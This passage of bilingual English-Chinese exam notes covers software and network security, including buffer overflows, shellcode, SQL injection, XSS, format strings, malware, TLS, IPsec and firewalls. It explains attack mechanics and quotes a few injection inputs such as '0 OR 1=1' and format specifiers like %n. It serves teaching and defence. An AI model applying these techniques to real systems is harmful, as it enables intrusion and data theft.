- How to say it in the exam: "A stack frame holds the parameters, the return address, the saved frame pointer and the locals of one call. The return address tells the processor where to continue when the function ends."考试中可以这样写：“栈帧保存一次调用的参数、返回地址、保存的帧指针和局部变量。返回地址告诉处理器函数结束后从哪里继续执行。”
- The order of overwriting is buffer, frame pointer, return address. A single contiguous write cannot skip the frame pointer.覆盖的顺序是：缓冲区、帧指针、返回地址。一次连续的写入不能跳过帧指针。
- Write the address backward in memory order: 0x08048484 is 84 84 04 08, not 08 04 84 84.要按内存顺序反向写入地址：0x08048484 写成 84 84 04 08，而不是 08 04 84 84。
- The counts are 25th byte first (B + F + 1 with B = 20, F = 4) and 28 bytes in all. Do not mix up "first touched" and "fully controlled".计数为：第 25 个字节最先被覆盖（B + F + 1，其中 B = 20，F = 4），总共 28 个字节。不要混淆“首先触及”和“完全控制”。
- How to say it in the exam: "The input overflows the buffer, then overwrites the saved frame pointer and the return address. When the function returns, control passes to the address that the attacker chose."考试中可以这样写：“输入覆盖了缓冲区，然后覆盖保存的帧指针和返回地址。函数返回时，控制权会转到攻击者选定的地址。”
- Sled length is the buffer size minus the shellcode size, not the whole buffer.滑板的长度是缓冲区大小减去 shellcode 大小，而不是整个缓冲区的大小。
- Shellcode must be free of NULL bytes because the copy stops there. Zero values are made at run time.shellcode 中不能有 NULL 字节，因为复制会在遇到它时停止。零值要在运行时生成。
- Position independence is needed because the exact address of the buffer is not known.之所以需要与位置无关，是因为缓冲区的确切地址事先并不知道。
- How to say it in the exam: "Shellcode is attacker-supplied machine code. It must be position independent and contain no NULL bytes. A NOP sled in front of it lets an imprecise return address still reach the code."考试中可以这样写：“shellcode 是攻击者提供的机器码。它必须与位置无关，并且不含 NULL 字节。在它前面放置一段 NOP 滑板，可以让不精确的返回地址仍然落到这段代码上。”
- Canaries are compile-time defences. NX and ASLR are run-time defences. This is the usual classification question.金丝雀是编译时防御。NX 和 ASLR 是运行时防御。这是常见的分类题。
- NX does not stop return-to-libc. ASLR does not block an attempt, it only makes it unlikely.NX 无法阻止 return-to-libc。ASLR 并不阻止一次尝试，它只是使攻击不太可能成功。
- The canary catches an overwrite of the return address only through a sequential overflow. A different bug that writes at a chosen offset can skip it.金丝雀只有在顺序溢出的情况下才能发现对返回地址的覆盖。如果另一个漏洞在选定的偏移处写入，它就可以绕过金丝雀。
- How to say it in the exam: "Compile-time defences such as canaries need recompiling. Run-time defences such as NX and ASLR protect existing binaries. No single defence is complete, so they are combined."考试中可以这样写：“金丝雀等编译时防御需要重新编译。NX 和 ASLR 等运行时防御可以保护现成的二进制程序。没有哪一种防御是完备的，所以要把它们组合使用。”
- Return-to-libc exists because of NX, and ASLR is a counter to it. Do not reverse this order.return-to-libc 的出现正是因为有了 NX，而 ASLR 是对它的对抗。不要把这个顺序弄反。
- Off-by-one changes only one byte of the frame pointer, not the return address.单字节溢出（off-by-one）只改变帧指针的一个字节，而不改变返回地址。
- The same canary at the same place catches the classic attack and the off-by-one attack.放在同一位置的同一个金丝雀，既能拦住经典攻击，也能拦住单字节溢出攻击。
- Only the stack holds a return address. A heap or global overflow needs a later indirect call through the damaged pointer.只有栈中保存返回地址。堆溢出或全局数据溢出还需要之后通过被破坏的指针进行一次间接调用。
- A global address is the most predictable of the three, even with ASLR on the stack and heap.即使栈和堆启用了 ASLR，全局变量的地址仍是三者中最可预测的。
- How to say it in the exam: "A heap or global-data overflow overwrites an adjacent function pointer. Control moves when the program next calls through it."考试中可以这样写：“堆或全局数据溢出会覆盖相邻的函数指针。程序下一次通过该指针调用时，控制权就会转移。”
Chapter 15 Software Security: Input Handling, Format Strings and XSS
- Do not say that security bugs are "rarer" bugs. They are bugs that someone can trigger on purpose.不要说安全漏洞是“更罕见的”漏洞。它们是有人可以故意触发的漏洞。
- Testing with likely inputs does not find them. Security testing needs unusual inputs.用常见的输入做测试发现不了它们。安全测试需要不寻常的输入。
- How to say it in the exam: "In quality the failures are random. In security the attacker chooses the distribution and targets specific bugs."考试中可以这样写：“在质量问题中，失效是随机的。在安全问题中，攻击者选择输入的分布，并瞄准特定的漏洞。”
- Validate after canonicalizing, never before. Otherwise an overlong or encoded form passes the check and is decoded later.必须先规范化，再验证，绝不能反过来。否则过长的或经过编码的形式会通过检查，之后才被解码。
- Blocking a few bad characters (a denylist) is never the fix. Name the allowlist.只屏蔽几个坏字符（黑名单）从来不是正确的修复方法。应当明确给出白名单。
- A check as signed and a use as unsigned is the classic integer bug: one bit pattern is interpreted twice.按有符号数检查、按无符号数使用，是典型的整数错误：同一个位模式被解释了两次。
- How to say it in the exam: "Accept only what is wanted, after converting the input to its canonical form."考试中可以这样写：“先把输入转换为规范形式，然后只接受所需的内容。”
- Command injection versus SQL injection. Same cause: untrusted input is concatenated into text that an interpreter executes. Different: the interpreter, the metacharacters, the power gained and the specific fix (argument list versus parameterized query).命令注入与 SQL 注入：根源相同，都是把不可信的输入拼接到解释器要执行的文本中。不同之处在于：解释器、元字符、攻击者获得的能力，以及具体的修复方法（参数列表与参数化查询）。
- Blocking only the semicolon is not a fix. Use an allowlist.只屏蔽分号不是修复方法。应使用白名单。
- Escaping helps, but separating data from code (placeholders, argument lists) removes the cause.转义有一定帮助，但把数据与代码分开（占位符、参数列表）才能消除根源。
- How to say it in the exam: "The program builds a command from untrusted input, so the interpreter runs the attacker's text as code."考试中可以这样写：“程序用不可信的输入构造命令，因此解释器会把攻击者的文本当作代码执行。”
- The victim is the user of the site, not the server.受害者是该网站的用户，而不是服务器。
- The same-origin policy does not stop XSS, because the script arrives from the site itself.同源策略无法阻止 XSS，因为脚本是从该网站本身送来的。
- Input validation alone is not the fix. Encode the output for its context.仅靠输入验证不是修复方法。应根据输出所处的上下文进行编码。
- Stored is usually more dangerous: one submission, no lure, all visitors, and it persists until removed.存储型通常更危险：只需提交一次，无需诱骗，所有访问者都会受影响，并且会一直存在，直到被删除。
- How to say it in the exam: "Input supplied by one user is output to other users without sanitizing, so attacker script runs in their browsers with the origin of the vulnerable site."考试中可以这样写：“一个用户提供的输入，未经过滤就输出给其他用户，因此攻击者的脚本会以存在漏洞的网站的源，在其他用户的浏览器中运行。”
- The attacker supplies no arguments. The damage comes from the missing arguments that
printftakes from the stack anyway.攻击者不提供任何参数。危害来自printf无论如何都会从栈中取的那些缺失的参数。 %nwrites,%xand%sread. Do not swap them.%n负责写，%x和%s负责读。不要把它们弄混。- A format-string bug is an injection flaw. No buffer is overrun, so buffer-size checks do not stop it.格式化字符串错误属于注入型漏洞。它并不会造成缓冲区越界，因此缓冲区大小检查无法阻止它。
- How to say it in the exam: "User data used as the format of printf lets the attacker read memory with
%xand%sand write it with%n. Use a constant format string."考试中可以这样写：“把用户数据用作 printf 的格式，会让攻击者用%x和%s读取内存，并用%n写入内存。应使用常量格式字符串。”
- The cure for a race is an atomic operation, not a faster check.解决竞争的办法是原子操作，而不是更快的检查。
- A random name alone is a second line of defence. Atomic creation is the real fix.仅靠随机文件名只是第二道防线。原子创建才是真正的修复方法。
- Resetting PATH inside a privileged shell script is not enough, because of IFS.在有特权的 shell 脚本中重置 PATH 是不够的，因为还有 IFS 的问题。
- How to say it in the exam: "Check and use must be one atomic step: random name, create with O_EXCL, mode 0600."考试中可以这样写：“检查与使用必须是一个原子步骤：随机文件名，用 O_EXCL 创建，权限模式为 0600。”
Chapter 16 Database Security and SQL Injection
- Name all three parts of an answer: the input, the built query and the result. A payload alone earns few marks.答案中应写出三个部分：输入、构造出的查询和结果。只写出载荷，得分很少。
- The trailing
--is needed in piggy-backed and tautology attacks to remove the stray closing quote.在捎带查询和重言式攻击中，需要末尾的--来去掉多余的右引号。 - Removing the quote character is not a fix. A numeric field has no quotes, so the input
0 OR 1=1works without any'.去掉引号字符并不能解决问题。数字字段没有引号，因此输入0 OR 1=1无需任何'即可生效。 - A UNION attack fails if the column count or the types differ. Attackers probe with
ORDER BYand increasing numbers until an error appears.如果列数或类型不一致，UNION 攻击就会失败。攻击者用ORDER BY和逐渐增大的数字进行试探，直到出现错误。 - How to say it in the exam: "A parameterized query separates the query structure from the data, so user input can never change the syntax of the query."考试中可以这样写：“参数化查询把查询的结构与数据分开，因此用户输入永远无法改变查询的语法。”
- "X revokes Y" does not remove everyone Y ever granted to. Look for an independent, still valid path from the owner.“X 撤销 Y 的权限”并不会撤销 Y 曾经授予过的所有人的权限。应查看是否还存在一条从所有者出发、独立且仍然有效的路径。
- Time matters. A grant made before the grantor had a second source does not survive on that second source.时间很重要。在授权人获得第二个来源之前做出的授权，不会因为这第二个来源而保留下来。
- A user who loses the right through one grant keeps it if a different valid grant reaches him. Check each user separately.如果用户因一条授权而失去权限，但另一条有效的授权仍然传到了他那里，他就会保留该权限。应逐个用户进行检查。
- How to say it in the exam: "A right survives a revocation if its holder is still reachable from the owner through grants that were valid when they were made."考试中可以这样写：“只要持有者仍可通过授予时有效的授权与所有者相连，权限就能在撤销后保留。”
- Fixed roles cannot be modified. Only their members can be changed.固定角色本身不能修改，只能更改其成员。
- An application role gives rights to the application, not to a person. This is why a password activates it.应用程序角色把权限授予应用程序，而不是某个人。这就是它需要用密码激活的原因。
- How to say it in the exam: "RBAC makes the task, not the person, the unit of administration."考试中可以这样写：“RBAC 使任务而不是个人成为管理的基本单位。”
- Name the cause of the channel: a link that the user can use outside the database, such as the start date.指出这一通道的成因：用户可以在数据库之外利用的一种关联，例如开始日期。
- Splitting tables fixes the structural channel only. Correlations that live outside the database cannot be found from the schema.拆分表只能解决结构性通道的问题。存在于数据库之外的关联，无法从模式中发现。
- How to say it in the exam: "Inference lets a user derive unauthorised data from authorised answers. It is stopped at design time or at query time."考试中可以这样写：“推断使用户能够从经授权的答案中推导出未经授权的数据。它可以在设计时或查询时被阻止。”
- The server always returns too many rows, never too few. The client must decrypt and re-check each of them.服务器返回的行总是过多，绝不会过少。客户端必须对每一行解密并逐行重新检查。
- The server can narrow candidates to a bucket. It cannot apply the exact condition, because it has no key.服务器只能把候选范围缩小到某个桶，无法应用精确的条件，因为它没有密钥。
- How to say it in the exam: "Coarse indexes let the server pre-filter encrypted rows. The price is some leakage of order and extra work at the client."考试中可以这样写：“粗粒度索引让服务器可以预先过滤加密的行。代价是会泄露一部分顺序信息，并增加客户端的工作量。”
Chapter 17 User Authentication and Password Security
- Password plus security question is two items of the same class (knowledge). It is not MFA.口令加安全问题是同一类（知识）的两项，不是多因素认证。
- A fingerprint is "something you are", not "something you know". A signature or typing rhythm is "something you do".指纹属于“你是什么”，而不是“你知道什么”。签名或打字节奏属于“你做什么”。
- Name the roles by function: the same person is applicant at registration and claimant at login.按职能说出角色：同一个人在注册时是申请人，在登录时是声称者。
- How to say it in the exam: "MFA combines evidence from different classes whose failure modes are largely independent, so one stolen factor is not enough."考试中可以这样写：“多因素认证结合了不同类别的证据，这些证据的失效方式基本相互独立，因此只被盗一个因素是不够的。”
- The salt is not secret. Do not say that it "encrypts" the password.盐值不是秘密。不要说它“加密”了口令。
- Salt does not slow an attack on one account. Say "multiplies the work for \(n\) accounts" and "defeats precomputed tables".盐值并不会减缓对单个账户的攻击。应表述为“使针对 \(n\) 个账户的工作量成倍增加”和“使预计算表失效”。
- crypt(3) is not reversible DES: the password is the key and the plaintext is a fixed zero block.crypt(3) 并不是可逆的 DES：口令作为密钥，明文是固定的全零块。
- Encrypting a password on the wire does not stop replay (Section 17.6).在网络上加密口令并不能阻止重放（见第 17.6 节）。
- How to say it in the exam: "A per-user random salt makes identical passwords hash differently, forces the attacker to attack each account separately and makes precomputed tables \(2^b\) times larger."考试中可以这样写：“每个用户各自的随机盐值使相同的口令得到不同的散列值，迫使攻击者逐个账户进行攻击，并使预计算表的规模扩大 \(2^b\) 倍。”
- A rainbow table is not a table of all hashes. It stores the ends of chains only.彩虹表并不是所有散列值的表，它只存储各条链的两端。
- The reduction function is not the inverse of the hash function.归约函数并不是散列函数的逆函数。
- Chains shrink memory by \(t\) and cost about \(t^2\) online hashing. Say both parts of the trade.链把存储量减少 \(t\) 倍，代价是在线计算约 \(t^2\) 次散列。两方面的权衡都要说明。
- Real passwords fall to dictionaries sooner than brute force suggests.真实的口令比暴力破解的估计更早被字典攻破。
- How to say it in the exam: "A rainbow table stores only the ends of hash-reduce chains, trading online computation for memory; a per-user salt needs a separate table per salt, which makes the attack infeasible."考试中可以这样写：“彩虹表只存储哈希-归约链的两端，以在线计算换取存储空间；每用户的盐值要求为每个盐值单独建一张表，使该攻击变得不可行。”
- The code is the same during one step. Do not compute it from the second.同一步内验证码保持不变。不要按秒数去计算它。
- SMS is a possession factor, but the weakest: the attacker needs the number, not the phone (SIM swap).短信属于持有物因素，但它是最弱的：攻击者只需要拿到号码，而不必拿到手机（SIM 卡换卡）。
- A memory card only stores data. A smart card has a processor.存储卡只能存储数据，智能卡带有处理器。
- Raising the threshold lowers FAR and raises FRR. Say both.提高阈值会降低 FAR，并提高 FRR。两点都要说明。
- FAR counts impostors, FRR counts genuine users: different denominators.FAR 统计的是冒充者，FRR 统计的是真实用户，两者的分母不同。
- Verification is 1:1, identification is 1:N.验证是 1:1，标识是 1:N。
- The answer must contain the nonce. A bare hash of the password is replayable.应答必须包含一次性随机数。仅仅是口令的散列值，是可以被重放的。
- Needham-Schroeder is weak against an old compromised session key, not against eavesdropping of the current one.Needham-Schroeder 协议的弱点在于旧的、已泄露的会话密钥，而不在于对当前会话的窃听。
- Timestamps need clocks, nonces need a handshake. Say which fits where: timestamps for connectionless messages, nonces for sessions.时间戳需要时钟，一次性随机数需要握手。要说明各自适用于什么场合：时间戳适用于无连接消息，一次性随机数适用于会话。
- How to say it in the exam: "The host sends a fresh random challenge and the response must be bound to it, so a recorded response fails against the next challenge."考试中可以这样写：“主机发送一个新鲜的随机挑战，应答必须与之绑定，因此被录制的应答无法通过下一次挑战。”
- The ticket does not prove identity. The authenticator does, because it uses the session key now.票据本身不能证明身份，证明身份的是认证符，因为它此刻使用了会话密钥。
- The address in the ticket stops use from another workstation, but it can be forged. The session key cannot.票据中的地址可以阻止在其他工作站上使用，但地址可以伪造；会话密钥则无法伪造。
- Both versions allow offline password guessing on the reply of the AS.两个版本都允许攻击者对认证服务器（AS）的应答进行离线口令猜测。
- How to say it in the exam: "The ticket delivers the session key securely; the authenticator proves that the client holds it now."考试中可以这样写：“票据安全地传递会话密钥；认证符证明客户端当前持有该密钥。”
Chapter 18 Malicious Software
- Always give two answers for a sample: how it spreads and what it does.对一个样本，总要给出两方面的答案：它如何传播，以及它做什么。
- A bot is not a worm. A bot is controlled by a C&C server, while a worm spreads and starts itself.僵尸程序不是蠕虫。僵尸程序受 C&C 服务器控制，而蠕虫会自行传播和启动。
- A rootkit is not only a backdoor. A backdoor gives access. A rootkit also hides itself.Rootkit 不只是后门。后门提供访问入口；rootkit 还会隐藏自身。
- An APT is a campaign, not a type of malware.APT 是一场攻击行动，而不是一种恶意软件类型。
- How to say it in the exam: "A virus needs a host and a user action. A worm is independent and spreads over the network. A Trojan deceives the user and does not replicate."考试中可以这样写：“病毒需要宿主和用户的操作。蠕虫独立运行，并通过网络传播。特洛伊木马欺骗用户，不自我复制。”
- The decryption routine of an encrypted virus is constant. This is the difference from a polymorphic virus.加密型病毒的解密例程是固定不变的，这正是它与多态型病毒的区别。
- Infection is prevented completely by keeping the virus out, and many forms are blocked by denying normal users the right to change programs. Access control on documents is of limited use against macro viruses.只有把病毒挡在外面，才能完全防止感染；许多形式的病毒可以通过不让普通用户有权修改程序来阻止。对文档做访问控制，对宏病毒的作用有限。
- A virus needs a host and a user action. If a sample spreads by itself over the network, it is a worm.病毒需要宿主和用户的操作。如果一个样本自己通过网络扩散，它就是蠕虫。
- How to say it in the exam: "A virus has an infection mechanism, a trigger and a payload, and it goes through the dormant, propagation, triggering and execution phases."考试中可以这样写：“病毒有感染机制、触发条件和载荷，它依次经历潜伏、传播、触发和执行四个阶段。”
- A hit-list shortens only the slow start. The time from 10% to 90% stays \(4.39/K\).命中列表只缩短缓慢启动阶段。从 10% 到 90% 的时间仍然为 \(4.39/K\)。
- \(K\) must be in the same time unit as the answer. Convert 0.0300 per minute to 1.80 per hour before you divide.\(K\) 的时间单位必须与答案的时间单位一致。在做除法之前，先把 0.0300 每分钟换算成 1.80 每小时。
- Most infections happen after the slow start, so manual response in the fast phase is too late.大多数感染发生在缓慢启动之后，因此在快速扩散阶段靠人工响应就太晚了。
- How to say it in the exam: "Spread is exponential while few hosts are infected, roughly linear in the fast phase, and slows when few susceptible hosts remain. Defence must act in the slow start."考试中可以这样写：“感染主机很少时，扩散是指数增长的；在快速阶段，大致呈线性增长；当可感染的主机所剩无几时，扩散减慢。防御必须在缓慢启动阶段就行动。”
- A drive-by-download does not replicate. A worm does.路过式下载不会自我复制，蠕虫会。
- Malvertising does not compromise the site. A watering-hole attack does.恶意广告不会攻破网站本身，水坑攻击会。
- Spear-phishing is targeted. Ordinary phishing is mass mail.鱼叉式网络钓鱼是有针对性的，普通网络钓鱼则是群发邮件。
- Ransomware that uses public-key cryptography cannot be undone without the private key. Backups are the defence.使用公钥密码的勒索软件，没有私钥就无法解密。备份是防御手段。
- A bot is not a worm: the difference is the C&C server.僵尸程序不是蠕虫：区别在于 C&C 服务器。
- A backdoor bypasses a check. A rootkit hides malware and keeps root access.后门绕过检查。rootkit 隐藏恶意软件，并保持 root 权限。
- The lower the layer, the harder the detection: hypervisor and firmware rootkits are below the operating system, which cannot see them.层级越低，越难检测：虚拟机监控器和固件级 rootkit 位于操作系统之下，操作系统本身看不到它们。
- A checker that runs under a compromised kernel can be fooled. Use a trusted view from outside, such as clean boot media or a cross-view comparison.在被攻破的内核中运行的检查程序可能被欺骗。应使用来自外部的可信视图，例如干净的启动介质，或交叉视图比对。
- How to say it in the exam: "A rootkit subverts the system calls that report on files and processes. It is found by a cross-view check and removed by reinstalling."考试中可以这样写：“rootkit 篡改了报告文件和进程的系统调用。它通过交叉视图检查被发现，并通过重装系统被清除。”
- Behaviour-based detection needs the code to run, so harm may occur before the block. It also gives false positives.基于行为的检测需要代码先运行，因此在拦截之前可能已经造成危害。它还会产生误报。
- Signature scanning is blind to new, polymorphic, metamorphic and zero-day samples, but it has few false positives.特征码扫描对新的、多态的、变形的和零日样本看不见，但误报很少。
- A plain checksum can be compensated by the malware. A keyed or encrypted hash cannot.普通校验和可以被恶意软件伪造补偿；带密钥或加密的哈希则不能。
- How to say it in the exam: "A signature scanner detects what it has seen; a behaviour monitor detects what the code does."考试中可以这样写：“特征码扫描器检测它见过的东西；行为监视器检测代码的所作所为。”
Chapter 19 Transport-Level Security: SSL/TLS, HTTPS and SSH
- The master secret belongs to the session. Keys, IVs, randoms and sequence numbers belong to the connection.主密钥属于会话。密钥、IV、随机数和序号属于连接。
- TLS does not stop denial of service. A SYN flood hits TCP before TLS starts.TLS 不能防止拒绝服务。SYN 洪泛攻击在 TLS 启动之前就已经打到了 TCP 层。
- TLS protects data in transit only. After decryption on a compromised server the attacker sees plaintext.TLS 只保护传输中的数据。如果服务器已被攻破，解密之后攻击者看到的就是明文。
- How to say it in the exam: "A session is an association created by the Handshake Protocol that fixes the master secret and can be shared by many connections. A connection is one transient channel with its own randoms, keys and sequence numbers."考试中可以这样写：“会话是由握手协议建立的一种关联，它确定主密钥，并可被多条连接共享。连接是一条短暂的通道，有自己的随机数、密钥和序号。”
- The MAC is computed before encryption, over the plaintext fragment with the sequence number. This is MAC-then-encrypt.MAC 在加密之前计算，覆盖的是明文分片和序号。这就是先 MAC 后加密。
- Records carry no sequence number. Both sides count, so an out-of-order record fails its MAC.记录中不带序号。双方各自计数，所以乱序到达的记录会因 MAC 校验失败而被拒绝。
- The padding-length byte is part of \(L\). Forgetting it gives wrong sizes.填充长度字节是 \(L\) 的一部分。漏掉它，大小就会算错。
- How to say it in the exam: "Fragment, compress, add MAC, encrypt, add header. The MAC covers the sequence number, type, version, length and fragment."考试中可以这样写：“先分片，压缩，加 MAC，加密，再加首部。MAC 覆盖序号、类型、版本、长度和分片。”
server_hello_doneends phase 2.finishedends phase 4.change_cipher_specbelongs to its own protocol, not to the Handshake Protocol.server_hello_done结束第 2 阶段。finished结束第 4 阶段。change_cipher_spec属于它自己的协议，不属于握手协议。- With RSA the client invents the pre-master secret. With DH both sides compute it.使用 RSA 时，由客户端生成预主密钥。使用 DH 时，双方各自计算。
- The randoms are ordered client then server for the master secret, and server then client for the key block.推导主密钥时，随机数的顺序是先客户端后服务器；推导密钥块时则是先服务器后客户端。
- Anonymous DH has no signature, so a man-in-the-middle can run DH with both sides.匿名 DH 没有签名，因此中间人可以分别与双方进行 DH 交换。
- How to say it in the exam: "
finishedis the first record under the new keys. It covers a hash of all handshake messages, so it confirms key agreement and detects tampering."考试中可以这样写：“finished是新密钥下的第一条记录。它覆盖了所有握手消息的散列值，因此既能确认密钥协商成功，又能发现篡改。”
- Heartbleed is a missing length check in one implementation (a buffer over-read, Chapter 14), not a weakness of the protocol.Heartbleed 是某个实现中缺少长度检查（一种缓冲区过读，第 14 章），而不是协议的弱点。
- Static RSA is dropped because one stolen server key would expose every recorded session. Signing with RSA does not harm forward secrecy.静态 RSA 被弃用，因为一把被盗的服务器密钥会暴露所有已记录的会话。用 RSA 签名不会损害前向保密。
- CRIME needs TLS compression. BEAST needs a predictable CBC IV.CRIME 需要 TLS 压缩。BEAST 需要可预测的 CBC IV。
- HTTPS does not hide who you talk to (addresses and ports), only what you say.HTTPS 不隐藏你和谁通信（地址和端口），只隐藏你说了什么。
- HTTPS does not protect the server. A hacked server still sees the plaintext.HTTPS 不保护服务器。服务器被入侵后，攻击者仍能看到明文。
- A missing
close_notifyis not proof of an attack, but the client must warn.缺少close_notify并不能证明遭到了攻击，但客户端必须发出警告。 - How to say it in the exam: "HTTPS is HTTP over TLS on port 443. It gives encryption, integrity and server authentication."考试中可以这样写：“HTTPS 是运行在 TLS 之上的 HTTP，端口 443。它提供加密、完整性和服务器认证。”
- Server authentication happens in the Transport Layer Protocol (host-key signature). User authentication comes afterwards.服务器认证在传输层协议中完成（用主机密钥签名）。用户认证在之后进行。
- The MAC covers the sequence number and the plaintext packet. The MAC itself is sent unencrypted.MAC 覆盖序号和未加密的数据包。MAC 本身不加密，直接发送。
- Local forwarding: the client listens and the server connects onward. Remote forwarding: the server listens and the client connects onward.本地转发：客户端监听，服务器再向外连接。远程转发：服务器监听，客户端再向外连接。
- How to say it in the exam: "SSH has a Transport, a User Authentication and a Connection protocol. Port forwarding sends an insecure TCP connection through an encrypted SSH channel."考试中可以这样写：“SSH 有传输层、用户认证和连接三个协议。端口转发把一条不安全的 TCP 连接放进加密的 SSH 通道中传输。”
Chapter 20 IP Security (IPsec) and VPNs
- IPsec protects the IP packet, not one application. Do not confuse it with TLS, which protects one TCP connection.IPsec 保护的是 IP 数据包，而不是某一个应用。不要把它与 TLS 混淆，TLS 保护的是一个 TCP 连接。
- ESP, not AH, is the protocol to recommend. AH gives no confidentiality.应推荐的是 ESP，而不是 AH。AH 不提供机密性。
- How to say it in the exam: "IPsec works below TCP and UDP, so it is transparent to applications and users, and one mechanism protects all traffic."考试中可以这样写：“IPsec 工作在 TCP 和 UDP 之下，因此对应用和用户是透明的，一种机制即可保护所有流量。”
- An SA is one-way. Two-way traffic needs two SAs.SA 是单向的。双向通信需要两个 SA。
- The SPI alone does not identify the SA. The destination address and the protocol are needed too.仅凭 SPI 无法标识 SA，还需要目的地址和协议。
- The SPD decides whether to protect; the SAD holds how. Do not swap them.SPD 决定是否保护，SAD 保存怎样保护。不要把两者混淆。
- Plain packet that matches PROTECT on the inbound side: discard. Only BYPASS lets a plain packet in.入站方向上，与 PROTECT 匹配的明文数据包应丢弃。只有 BYPASS 才允许明文数据包进入。
- IKE traffic (UDP port 500) must be BYPASS. How to say it in the exam: "The SPD decides whether a packet is protected; the SA decides how."IKE 流量（UDP 端口 500）必须设为 BYPASS。考试中可以这样写：“SPD 决定一个数据包是否受保护；SA 决定如何保护。”
- ICV after encryption, not before. That is why the receiver can check it without decrypting.ICV 是在加密之后计算的，而不是之前。正因为如此，接收方无需解密即可检查 ICV。
- The window moves to the right only. Its left edge is \(N-W+1\), so the window moves when a larger valid number arrives.窗口只向右移动。它的左边界为 \(N-W+1\)，所以只有当更大的有效序号到达时窗口才会移动。
- Count the 2 bytes of Pad Length and Next Header in the padding formula.在填充公式中要计入填充长度和下一首部这 2 个字节。
- The outer IP header is not covered by the ESP ICV.外层 IP 首部不在 ESP ICV 的覆盖范围内。
- How to say it in the exam: "ESP encrypts the payload and trailer, and authenticates the ESP header and the ciphertext. The ICV is computed over the ciphertext."考试中可以这样写：“ESP 加密载荷和尾部，并认证 ESP 首部和密文。ICV 是对密文计算的。”
- In tunnel mode the ESP ICV does not cover the new outer IP header.在隧道模式下，ESP ICV 不覆盖新的外层 IP 首部。
- Transport mode is host to host. If a gateway is an endpoint of the SA, tunnel mode is required.传输模式是主机到主机。若网关是 SA 的端点，则必须使用隧道模式。
- AH does not hide anything. It authenticates only.AH 不隐藏任何内容，它只做认证。
- AH fails behind NAT because its ICV covers the addresses. ESP in tunnel mode does not.AH 在 NAT 之后会失效，因为它的 ICV 覆盖地址字段，而 NAT 会改写这些地址。而隧道模式下的 ESP 不会。
- How to say it in the exam: "Tunnel mode encapsulates the original packet in a new one, so intermediate routers see only the gateways' addresses."考试中可以这样写：“隧道模式把原始数据包封装进新的数据包，因此中间路由器只能看到网关的地址。”
- One SA means one protocol. Both services from AH and ESP need two SAs per direction.一个 SA 只对应一种协议。同时使用 AH 和 ESP 两种服务，则每个方向需要两个 SA。
- ESP before AH in transport mode means that the AH is applied last, on the outside.在传输模式下先 ESP 后 AH，意味着 AH 最后应用，位于外层。
- Only host-to-host SAs may use transport mode. Everything with a gateway uses tunnel mode.只有主机到主机的 SA 可以使用传输模式。凡是涉及网关的，都使用隧道模式。
- Cookies stop the clogging attack, not the man-in-the-middle attack. Authentication stops the man in the middle.cookie 能阻止阻塞攻击，但不能阻止中间人攻击。认证才能阻止中间人。
- Messages 1 and 2 are in the clear. Messages 3 and 4 are protected by the IKE SA.消息 1 和 2 是明文。消息 3 和 4 受 IKE SA 保护。
- IKE traffic is BYPASS in the SPD, because IKE creates the SAs (Section 20.2).IKE 流量在 SPD 中为 BYPASS，因为 IKE 负责创建 SA（见第 20.2 节）。
- How to say it in the exam: "IKE adds cookies, nonces and authentication to Diffie–Hellman, and IKEv2 needs four messages for the IKE SA and the first IPsec SA."考试中可以这样写：“IKE 在 Diffie–Hellman 的基础上增加了 cookie、nonce 和认证，IKEv2 需要四条消息来建立 IKE SA 和第一个 IPsec SA。”
Chapter 21 Firewalls, DMZ and VPN Configurations
- A perimeter firewall protects only traffic that passes through it. Bypass routes and insiders are outside its power.边界防火墙只保护经过它的流量。绕过路径和内部人员不在它的控制范围之内。
- Do not say that a firewall "stops viruses". It cannot stop an infected laptop or USB device that is attached inside.不要说防火墙“能阻止病毒”。它无法阻止接入内部的受感染笔记本或 USB 设备。
- A packet filter cannot enforce "HTTP only to approved sites", because it cannot read URLs.包过滤器无法实现“HTTP 只能访问已批准的网站”，因为它读不到 URL。
- How to say it in the exam: "A firewall is the single choke point of a network. It enforces the access policy on the traffic that passes it, and it must itself resist penetration."考试中可以这样写：“防火墙是网络唯一的咽喉点。它对通过的流量执行访问策略，并且自身必须能够抵抗渗透。”
- Order decides. A permissive rule above a deny rule hides the deny rule.顺序决定结果。一条位于拒绝规则之上的宽松规则会遮蔽该拒绝规则。
- Name the hole of the e-mail set: "any port above 1023". Name both fixes: source port and ACK. Then say that ACK does not prove that a connection exists.指出电子邮件规则集的漏洞：“任意端口高于 1023”。给出两种修补方法：源端口和 ACK。然后说明，ACK 并不能证明连接确实存在。
- Source port 25 is only a convention. The attacker can choose it. ACK is what really blocks his connection request.源端口 25 只是一种约定，攻击者可以自行选择。真正阻止其连接请求的是 ACK。
- How to say it in the exam: "A packet filter checks the header of each packet alone, from top to bottom, and the first match decides. Default discard means that what is not expressly permitted is prohibited."考试中可以这样写：“包过滤器单独检查每个数据包的首部，从上到下进行，第一个匹配的规则生效。默认丢弃意味着没有明确允许的都被禁止。”
- A circuit-level gateway cannot block one HTTP command. It does not examine contents.电路级网关无法阻止某一条 HTTP 命令，因为它不检查内容。
- A stateful firewall does not admit all inbound packets to high ports. It admits only packets that match an entry in the connection table.状态检测防火墙不会放行所有进入高端口的数据包，它只放行与连接表中某一条目相匹配的数据包。
- An application-level gateway supports only applications for which it has proxy code.应用级网关只支持它有代理代码的应用。
- How to say it in the exam: "Stateful inspection adds a connection table to a packet filter. Gateways split a connection in two and relay it, at the application layer or at the transport layer."考试中可以这样写：“状态检测是在包过滤器上增加一张连接表。网关把一条连接拆成两段并中继转发，可以在应用层，也可以在传输层进行。”
- Never put the HR database or other internal servers in the DMZ.绝不要把 HR 数据库或其他内部服务器放入 DMZ。
- Name the three purposes of the internal firewall, and say that the protection works in both directions.说出内部防火墙的三个用途，并说明这种保护是双向的。
- IPsec behind the firewall means that the firewall sees only ciphertext.IPsec 位于防火墙之后，意味着防火墙只看到密文。
- How to say it in the exam: "The DMZ keeps the public servers apart from the internal network. If a DMZ server is compromised, the internal firewall still blocks the way in."考试中可以这样写：“DMZ 将对外的服务器与内部网络隔开。即使某台 DMZ 服务器被攻陷，内部防火墙仍能阻止其进一步入侵。”
- An IPS is not a firewall. The firewall decides by policy rules, the IPS by detected malicious behaviour. They complement each other.IPS 不是防火墙。防火墙依据策略规则作出决定，IPS 依据检测到的恶意行为作出决定。两者相互补充。
- An IDS alerts, an IPS acts. Snort needs inline mode to drop packets.IDS 只告警，IPS 会采取行动。Snort 需要工作在内联模式下才能丢弃数据包。
- HIPS cannot replace network devices. It is one element of defence in depth.HIPS 不能取代网络设备。它只是纵深防御的一个组成部分。
